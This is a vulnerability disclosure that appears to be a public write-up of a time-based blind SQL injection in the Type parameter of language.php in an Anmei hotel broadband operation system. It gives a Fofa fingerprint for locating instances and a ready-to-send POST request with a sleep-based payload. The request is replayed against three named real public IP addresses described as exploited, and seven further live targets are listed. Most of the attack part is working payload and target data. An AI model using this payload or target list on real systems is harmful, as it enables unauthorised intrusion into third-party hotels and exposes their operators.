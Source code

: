 **Time blind injection type SQL injection exists in the Anmei Digital Hotel broadband operation system**

**Official website: http://www.amttgroup.com/**

**Affected product version: V1.0**

**Function point: At the editing interface of the language configuration page language. php**

**Route: ip:port/language.php**

**The injection parameter: Type**

**Fofa syntax: icon_hash="1259797304"**

**The vulnerability verification data packet is as follows**

```
POST /language.php HTTP/1.1
Host: ip:port
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 263
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
**Vulnerability Case 1:**
[**https://113.140.76.67:6070/manager/login.php**](https://113.140.76.67:6070/manager/login.php)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499749754-39d596ac-9556-4a37-8856-8c0935953394.png#averageHue=%2399b9d3&clientId=u95a6dc4b-efa8-4&from=paste&height=785&id=u20424b60&originHeight=981&originWidth=1612&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=299714&status=done&style=none&taskId=u84bbbd48-7e5b-42b9-a187-e904cb3371c&title=&width=1289.6)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 113.140.76.67:6070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499722920-24ff721b-eecf-4e67-b379-3d57fcb65d29.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=674&id=u836fcc32&originHeight=843&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388228&status=done&style=none&taskId=uf0c4715f-9ee3-4069-9cb7-036ed30465f&title=&width=1264)
**Vulnerability Case 2:**
[**https://202.105.109.76:7070/manager/login.php**](https://202.105.109.76:7070/manager/login.php)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 202.105.109.76:7070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499824396-edd67679-0ffb-430d-bda9-250cf232fcea.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=660&id=u9bdf3b23&originHeight=825&originWidth=1578&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388316&status=done&style=none&taskId=u152bfd0b-21ed-48a7-b1f8-18d4e4719da&title=&width=1262.4)**Vulnerability Case 3:**
[**https://218.29.143.74:7071/manager/login.php**](https://218.29.143.74:7071/manager/login.php)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 218.29.143.74:7071
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 265
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20

```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499881158-e38995e4-a6be-4a54-bab1-5c51dec16a13.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=663&id=u1b78ab13&originHeight=829&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=386822&status=done&style=none&taskId=u25a2cfad-42ec-4257-9c34-503246b9283&title=&width=1264)
**Other cases of vulnerabilities:**

[https://183.62.208.100:7070/manager/login.php](https://183.62.208.100:7070/manager/login.php)

[https://61.185.56.165:7080/manager/login.php](https://61.185.56.165:7080/manager/login.php)

[https://1.82.161.207:7080/manager/login.php](https://1.82.161.207:7080/manager/login.php)

[https://113.59.71.176:7070/manager/login.php](https://113.59.71.176:7070/manager/login.php)

[https://119.4.56.35:7070/manager/login.php](https://119.4.56.35:7070/manager/login.php)

[https://1.202.129.226:7070/manager/login.php](https://1.202.129.226:7070/manager/login.php)

[https://202.97.137.229:62443/manager/login.php](https://202.97.137.229:62443/manager/login.php)
